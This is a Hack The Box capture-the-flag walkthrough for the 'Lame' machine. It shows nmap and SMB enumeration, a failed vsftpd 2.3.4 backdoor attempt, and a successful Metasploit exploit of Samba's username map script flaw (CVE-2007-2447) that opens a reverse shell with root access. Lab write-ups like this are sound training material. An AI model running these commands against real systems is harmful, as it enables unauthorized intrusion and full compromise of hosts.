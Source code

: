 ```yaml
---
title: "Lame"
tags:
  - Easy
  - Linux
  - FTP
  - SMB
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.3 |  | [Lame](https://app.hackthebox.com/machines/lame) |  |

---

## Enumeration
---
### Nmap
---
We began with a full port scan and service enumeration using Nmap:

```
nmap -T4 -p- -sC -sV 10.10.10.3

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
...
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveals `vsFTPd 2.3.4` , `OpenSSH` and `Samba` running on the target server. 

### FTP
---
The FTP server is configured to allow for anonymous login. Login was successful with the username anonymous and an empty password, but there were no files available for enumeration:

```
ftp 10.10.10.3   

Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||7124|).
150 Here comes the directory listing.
226 Directory send OK.
```

Does this version of the service have vulnerabilities? Indeed, it does. The backdoor vulnerability was assigned [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) and an exploit was found in `Metasploit`.

```
Matching Modules
================

#  Name                                  Disclosure Date  Rank       Check  Description
-  ----                                  ---------------  ----       -----  -----------
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

We ran the module, but the exploit failed to create a session:

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

We move on to the other services for potential exploitations.

### SMB
---
We enumerate the `smb` service using `smbclient`:

```
smbclient -N -L \\\\10.10.10.3\\  

Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbclient` reveals that Samba 3.0.20 is running on the target. We have access to the `tmp` share and do not see anything of interest:

```
smbclient -N \\\\10.10.10.3\\tmp

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jan  4 17:10:33 2025
  ..                                 DR        0  Sat Oct 31 03:33:58 2020
  .ICE-unix                          DH        0  Sat Jan  4 16:08:11 2025
  vmware-root                        DR        0  Sat Jan  4 16:08:54 2025
  .X11-unix                          DH        0  Sat Jan  4 16:08:40 2025
  .X0-lock                           HR       11  Sat Jan  4 16:08:40 2025
  5532.jsvc_up                        R        0  Sat Jan  4 16:09:18 2025
  vgauthsvclog.txt.0                  R     1600  Sat Jan  4 16:08:10 2025

                7282168 blocks of size 1024. 5386548 blocks available
```

## Foothold
---

We use found vulnerability for this version of Samba using `searchsploit` and confirm the its module in `Metasploit`:

```
searchsploit "Samba 3.0.20"

-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - `Username` map script` Command Execution (Metasploit)      | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                 | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                         | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

msf6 > search "Samba 3.0.20"

Matching Modules
================

#  Name                                Disclosure Date  Rank       Check  Description
-  ----                                ---------------  ----       -----  -----------
0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

According to NIST, [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) stems from the MS-RPC functionality in `smbd` in Samba 3.0.0 through 3.0.25rc3. Remote attackers may execute arbitrary commands via shell metacharacters involing the `SamrChangePassword` function when the `username map script` option is enabled in `smb.conf`. Remote authenticated users may execute commands via shell metacharacters involving other MS-RPC functions in the remote printer and file share management.

We used Metasploit to exploit this vulnerability and obtained root privileges:

```
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
msf6 exploit(multi/samba/usermap_script) > set LPORT 443
msf6 exploit(multi/samba/usermap_script) > run
                                                                             
[*] Started reverse TCP handler on <Your_IP>:443                            
[*] Command shell session 1 opened (<Your_IP>:443 -> 10.10.10.3:36651) at 2025-01-04 18:22:17 -0500
                                                                             
id                                                                           
uid=0(root) gid=0(root)   
```

The user flag can be found at `/home/makis/user.txt`, and the root flag can be found at
`/root/root.txt`.

